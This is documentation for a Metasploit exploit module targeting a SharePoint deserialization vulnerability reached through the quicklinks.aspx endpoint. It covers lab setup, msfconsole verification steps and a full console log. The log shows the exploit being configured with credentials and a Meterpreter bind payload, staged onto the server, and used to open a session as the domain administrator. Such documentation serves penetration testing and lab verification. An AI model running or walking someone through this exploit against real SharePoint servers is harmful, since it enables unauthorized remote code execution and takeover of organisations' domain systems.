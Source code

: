 ## Vulnerable Application
A remotely exploitable vulnerability exists within SharePoint that can be leveraged by a remote authenticated attacker
to execute code within the context of the SharePoint application service. The privileges in this execution context are
determined by the account that is specified when SharePoint is installed and configured. The vulnerability is related to
a failure to validate the source of XML input data, leading to an unsafe deserialization operation that can be triggered
from a page that initializes either the `ContactLinksSuggestionsMicroView` type or a derivative of it. In a default
configuration, a Domain User account is sufficient to access SharePoint and exploit this vulnerability.

This module leverages the `/_layouts/15/quicklinks.aspx?Mode=Suggestion` endpoint that was confirmed to be vulnerable by
[Soroush Dalili](https://twitter.com/irsdl). Alternative endpoints that instantiate the
`ContactLinksSuggestionsMicroView` type may be used as well but are not supported by the module.

### Configuring SharePoint
Once SharePoint is installed, it needs to be configured with a site in order to be exploitable. The Central
Administration web interface **is not vulnerable**. To configure SharePoint to be a stand alone server:

1. Install Active Directory and promote the server to be a Domain Controller
    1. Install the "Active Directory Domain Services" role
    1. Promote the server to a Domain Controller in a new forest
    1. Create a Domain User account for testing
1. Install SQL Server Express
1. Run the "SharePoint Products Configuration Wizard"
    1. Use the SQL Server Express instances as the database server
1. In the SharePoint "Central Administration" console web interface:
    1. Verify that there is a web application under the "Manage web applications" page
    1. Create a new "Site Collection" under the "Create site collections" page
        1. Select the previously created web application
        1. Set a Title
        1. Use the default "Team Site" template
        1. Set the "Primary Site Collection Administrator" to the Domain Administrator account

## Verification Steps

1. Install the application and ensure a page is accessible
1. Start msfconsole
1. Do: `use exploit/windows/http/sharepoint_data_deserialization`
1. Set the `RHOSTS`, `USERNAME`, `PASSWORD` and `PAYLOAD` options
1. Set any additional options as required by the previously selected payload
1. Optionally set the `VHOST`, `SSL` and `DOMAIN` options as appropriate
1. Run the exploit

## Options

## Scenarios

### SharePoint 2016 on Server 2016

```
msf5 > use exploit/windows/http/sharepoint_data_deserialization 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/http/sharepoint_data_deserialization) > set RHOSTS 192.168.63.168
RHOSTS => 192.168.63.168
msf5 exploit(windows/http/sharepoint_data_deserialization) > set RPORT 80
RPORT => 80
msf5 exploit(windows/http/sharepoint_data_deserialization) > set SSL false
[!] Changing the SSL option's value may require changing RPORT!
SSL => false
msf5 exploit(windows/http/sharepoint_data_deserialization) > set VHOST ec2amaz-v2pri0v
VHOST => ec2amaz-v2pri0v
msf5 exploit(windows/http/sharepoint_data_deserialization) > set USERNAME smcintyre
USERNAME => smcintyre
msf5 exploit(windows/http/sharepoint_data_deserialization) > set PASSWORD Password1
PASSWORD => Password1
msf5 exploit(windows/http/sharepoint_data_deserialization) > set DOMAIN SHRPNT
DOMAIN => SHRPNT
msf5 exploit(windows/http/sharepoint_data_deserialization) > set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD => windows/meterpreter/bind_tcp
msf5 exploit(windows/http/sharepoint_data_deserialization) > check
[*] 192.168.63.168:80 - The service is running, but could not be validated. Received the quicklinks HTML form.
msf5 exploit(windows/http/sharepoint_data_deserialization) > exploit

[*] Executing automatic check (disable AutoCheck to override)
[!] The service is running, but could not be validated. Received the quicklinks HTML form.
[*] Command Stager progress -   7.42% done (7499/101079 bytes)
[*] Command Stager progress -  14.84% done (14998/101079 bytes)
[*] Command Stager progress -  22.26% done (22497/101079 bytes)
[*] Command Stager progress -  29.68% done (29996/101079 bytes)
[*] Command Stager progress -  37.09% done (37495/101079 bytes)
[*] Command Stager progress -  44.51% done (44994/101079 bytes)
[*] Command Stager progress -  51.93% done (52493/101079 bytes)
[*] Command Stager progress -  59.35% done (59992/101079 bytes)
[*] Command Stager progress -  66.77% done (67491/101079 bytes)
[*] Command Stager progress -  74.19% done (74990/101079 bytes)
[*] Command Stager progress -  81.61% done (82489/101079 bytes)
[*] Command Stager progress -  89.03% done (89988/101079 bytes)
[*] Command Stager progress -  96.45% done (97487/101079 bytes)
[*] Command Stager progress - 100.00% done (101079/101079 bytes)
[*] Started bind TCP handler against 192.168.63.168:4444
[*] Sending stage (176195 bytes) to 192.168.63.168
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 192.168.63.168:4444) at 2020-07-29 11:45:13 -0400

meterpreter > sysinfo
Computer        : EC2AMAZ-V2PRI0V
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : SHRPNT
Logged On Users : 19
Meterpreter     : x86/windows
meterpreter > getuid
Server username: SHRPNT\Administrator
meterpreter >
```
